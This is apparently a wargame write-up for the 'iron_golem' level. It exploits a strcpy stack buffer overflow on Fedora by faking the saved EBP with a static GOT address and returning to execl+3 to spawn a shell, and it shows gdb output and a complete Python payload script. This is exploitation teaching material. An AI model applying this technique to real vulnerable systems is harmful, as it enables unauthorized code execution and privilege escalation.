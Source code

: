 # Vulnerability
```
char buffer[256];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary.

# Exploitation
In Fedora, I am not able to use library function because it starts with '\x00'.

This program gives me a hint that is a keyword "fake ebp".

I will give a static address that does not change when execute binary again to SFP.

Then, the ebp will filled with "fake ebp" and ret will be executed.

First, I found a static address to use as "fake ebp":
```
(gdb) x/4x 0x08049618
0x8049618 <_GLOBAL_OFFSET_TABLE_>:	0x0804954c	0x00000000	0x00000000	0x080482ee
(gdb) 
```
This address does not changed when I executed many times, so I will use this address as fake ebp.

In 0x0804954c:
```
(gdb) x/4x 0x0804954c
0x804954c <_DYNAMIC>:	0x00000001	0x00000024	0x0000000c	0x080482c0
(gdb) 
```
The value is 1 and end with '\x00'.

If I give this address to fake ebp and filled ret address with execl, the execl will do prolog:
```assembly
push ebp
mov esp, ebp
```
So I will fill ret address with execl+3:
```
Dump of assembler code for function execl:
0x007a5720 <execl+0>:	push   %ebp
0x007a5721 <execl+1>:	mov    %esp,%ebp
0x007a5723 <execl+3>:	lea    0x10(%ebp),%ecx
```
Then prolog will be skipped and execl will take parameter with fake ebp that I found before(GOT address).

The GOT address's value is 1, so I made a simple c code which executes shell and named it as '\x01'.

The payload will be:
```
---------------------------------------------------------------------------
| A*256(buffer) | A*8(dummy) | 0x08049610(fake ebp) | 0x007a5723(execl+3) |
---------------------------------------------------------------------------
```
The reason why I give fake ebp with [GOT address -8] is because execl or other function find parameter with +8, +12, +16, etc..

execl will find parameter with [fake ebp+8](GOT address) and will execute '\x01' named program successfully.

# Payload
```python
import os

filename = "/home/gate/iron_golem"

payload = ""
payload += "A"*256
payload += "A"*8 # dummy
payload += "\x10\x96\x04\x08" # fake ebp
payload += "\x23\x57\x7a" # execl+3

os.execv(filename, [filename, payload])
```
